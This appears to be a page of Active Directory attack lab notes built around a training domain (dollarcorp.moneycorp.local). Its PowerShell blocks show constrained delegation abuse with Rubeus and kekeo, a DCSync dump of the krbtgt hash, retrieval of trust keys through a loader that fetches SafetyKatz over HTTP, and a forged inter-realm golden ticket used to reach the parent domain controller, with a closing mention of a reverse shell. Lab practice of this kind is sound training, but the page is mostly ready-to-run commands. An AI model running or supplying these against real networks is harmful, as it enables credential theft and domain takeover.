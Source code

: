 
***[+] Abusing Computers where Constrained Delegation is enabled***
 
*(Using Rubeus)*
```powershell

####Enumerate Computer on which Contrained Delegation Enabled
Get-DomainComputer -TrustedToAuth


####Request TGT and TGS
C:\AD\Tools\Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:<adminsrv hash> /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt


####Perform DCsync attack via ldap service
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

*(using kekeo)*
```powershell

./kekeo.exe

####Request TGT
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:<adminsrv rc4 hash>

####Requsting a TGS 
tgs::s4u /tgt: <filename>.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL

####Inject ticket intrust_tkt.kirbi current session
Invoke-Mimi-Command '"kerberos::ptt <filename>.kirbi"'
```


### Objective 18:

- Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using the domain trust key.

##### Trust Key Abuse

`dollarcorp.moneycorp.local` ->  `moneycorp.local`

`/sid`: Current domain SID 
`/sids` : Enterprise group SID


Forge TGT using Trust key ->  Request TGS
```powershell

####Retrive trust keys from dcorp-dc
Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "lsadump::trust /patch" "exit"

#### Forge Inter-realm TGT and save it into 'trust_tkt.kirbi'
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:<trust_key> /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"

####Request TGS using Inter-realm TGT (TGS for cifs)
C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt

dir \\mcorp-dc.moneycorp.local\c$

##Note: With this TGT We can also request for HOST Service and get reverse shell..
```